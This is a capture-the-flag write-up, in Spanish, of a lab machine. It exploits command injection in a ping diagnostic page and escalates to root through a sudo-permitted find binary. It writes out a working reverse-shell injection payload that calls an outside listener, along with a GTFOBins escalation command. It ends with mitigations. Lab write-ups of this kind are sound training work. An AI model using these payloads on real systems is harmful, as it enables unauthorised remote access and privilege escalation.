## Información General

| Campo                | Detalle                                         |
| -------------------- | ----------------------------------------------- |
| Nombre de la máquina | Identity                                        |
| Plataforma           | whoami-labs                                     |
| IP                   | 172.17.0.2                                      |
| Dificultad           | Fácil                                           |
| Sistema Operativo    | Linux (Ubuntu, contenedor Docker)               |
| Servicios expuestos  | 80/tcp (HTTP - Apache 2.4.52)                   |
| Vulnerabilidades     | Command Injection en herramienta de diagnóstico |
| Vector de escalada   | Sudo NOPASSWD sobre `/usr/bin/find` (GTFOBins)  |

---

## Resumen del Ataque

La máquina expone un único servicio: un servidor Apache 2.4.52 sobre el puerto 80. Tras enumerar directorios, se descubre `index.php`, una "Herramienta de Diagnóstico Interno" que permite introducir una dirección IP para comprobar su conectividad (ping).

El campo de entrada no sanitiza el valor recibido antes de construir el comando de sistema, lo que permite **Command Injection**: encadenando comandos con `;` es posible ejecutar instrucciones arbitrarias en el servidor, corriendo con los privilegios del usuario `web-admin`. Esto se aprovechó para obtener una reverse shell.

Una vez dentro, la enumeración de privilegios (`sudo -l`) mostró que `web-admin` podía ejecutar `/usr/bin/find` como root sin contraseña. Al tratarse de un binario con capacidad de escape a shell documentada en GTFOBins, se utilizó directamente para escalar a root y capturar la flag.

---

## Técnicas Usadas

- Reconocimiento de puertos y servicios con **Nmap** (`-p-`, `-sC -sV`).
- Enumeración de directorios web con **dirsearch**.
- **Command Injection (CMDi)** en funcionalidad de diagnóstico de red (ping).
- Obtención y estabilización de **reverse shell** (técnica `script`/`stty`/`reset`).
- Enumeración de usuarios del sistema (`/etc/passwd`) y privilegios (`sudo -l`).
- **Escalada de privilegios** mediante GTFOBins (`find` con NOPASSWD).

---

## Desarrollo

### 1. Escaneo de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



Solo el puerto 80 se encuentra abierto.

### 2. Identificación del servicio

```
nmap -p 80 -sC -sV -oN allports 172.17.0.2 
```



Se confirma un servidor Apache 2.4.52 sobre Ubuntu, mostrando la página por defecto.

### 3. Revisión de la web principal

```
http://172.17.0.2/
```



Plantilla por defecto de Apache. El código fuente no aporta información adicional.

### 4. Enumeración de directorios

```
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html
```



Se descubre `index.php`, oculto tras la página por defecto de Apache.

### 5. Análisis de la aplicación y descubrimiento de Command Injection

```
http://172.17.0.2/index.php
http://172.17.0.2/index.php/login/
```

Ambas rutas muestran el mismo contenido: una "Herramienta de Diagnóstico Interno" que permite introducir una dirección IP para verificar la conectividad. Se prueba primero con una IP legítima:

```
172.17.0.2
```



El comportamiento sugiere que el campo construye un comando tipo `ping -c 2 <input>` sin sanitizar la entrada. Se prueba inyectar un comando adicional separado por `;`:

```
172.17.0.2; id
```



Se confirma **Command Injection**: la salida de `id` se ejecuta junto al ping, corriendo como `web-admin`.

### 6. Obtención de reverse shell

Se pone en escucha un listener:

```
nc -lvnp 1234
```

Y se inyecta el payload de reverse shell a través del mismo campo vulnerable:

```
172.17.0.1; bash -c 'exec bash -i &>/dev/tcp/192.168.241.128/1234 <&1'
```





Shell obtenida como `web-admin`. Se estabiliza la TTY con la secuencia habitual:

```
script /dev/null -c bash
# ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
web-admin@7698744a2d1b:/var/www/html$ whoami
```



### 7. Enumeración de usuarios y privilegios

```
web-admin@7698744a2d1b:/var/www/html$ grep bash /etc/passwd
```



```
web-admin@7698744a2d1b:/var/www/html$ sudo -l
```



`web-admin` puede ejecutar `/usr/bin/find` como root sin contraseña, un binario con escape a shell documentado en GTFOBins.

### 8. Escalada de privilegios

```
web-admin@7698744a2d1b:/var/www/html$ sudo /usr/bin/find / -exec /bin/bash \;
```

```
root@7698744a2d1b:/var/www/html# whoami
```



### 9. Captura de las flag

```
root@7698744a2d1b:/var/www/html# cd /root
root@7698744a2d1b:~# cat flag.txt 
```



```
root@7698744a2d1b:~# cd /home
root@7698744a2d1b:/home# cd web-admin/
root@7698744a2d1b:/home/web-admin# cat user.txt 
```



```
Identity{3num34t1on_1s_th3_k3y}
Identity{p0w3r_0f_th3_checklist}
```


---

## Lecciones Aprendidas

- Las funcionalidades de diagnóstico de red expuestas en paneles internos (ping, traceroute, nslookup) son uno de los vectores de Command Injection más recurrentes, especialmente cuando construyen el comando concatenando strings en lugar de usar librerías nativas.
- Que la aplicación no requiera autenticación para acceder a una funcionalidad de "solo diagnóstico" no reduce el riesgo: aquí no hubo login previo, y aun así la superficie expuesta permitió RCE directo.
- Una vez más, un solo binario mal configurado en sudoers (`find`, en este caso) es suficiente para escalar de un usuario de aplicación sin privilegios a root, reforzando la importancia de contrastar siempre `sudo -l` contra GTFOBins.
- La estabilización de la TTY (`script` + `stty raw -echo` + `reset xterm`) sigue siendo un paso rutinario imprescindible para trabajar cómodamente tras obtener una shell reversa poco interactiva.

---

## Medidas de Mitigación

- Nunca construir comandos de shell concatenando entrada de usuario. Usar librerías nativas (p. ej. `ping3` en Python, o llamadas a sockets ICMP) en lugar de invocar binarios del sistema con `os.system()` o `subprocess.run(..., shell=True)`.
- Si es imprescindible invocar un binario externo, validar estrictamente la entrada (whitelisting de formato IP mediante regex o el módulo `ipaddress`) y ejecutar con `subprocess.run([...], shell=False)`, pasando argumentos como lista y nunca como string concatenado.
- Revisar y minimizar las entradas en `sudoers`. Evitar `NOPASSWD` en binarios con capacidad de escape a shell documentada en GTFOBins (`find`, `vim`, `less`, `awk`, etc.); si es imprescindible, restringir mediante wrappers específicos o políticas de AppArmor/SELinux.
- Auditar periódicamente los privilegios sudo asignados a usuarios de aplicación (`web-admin`), que en condiciones normales no deberían tener ningún privilegio elevado sobre el sistema.
- Considerar aislar funcionalidades de diagnóstico de red en un servicio separado con permisos mínimos, en lugar de ejecutarlas con los mismos privilegios que el resto de la aplicación web.


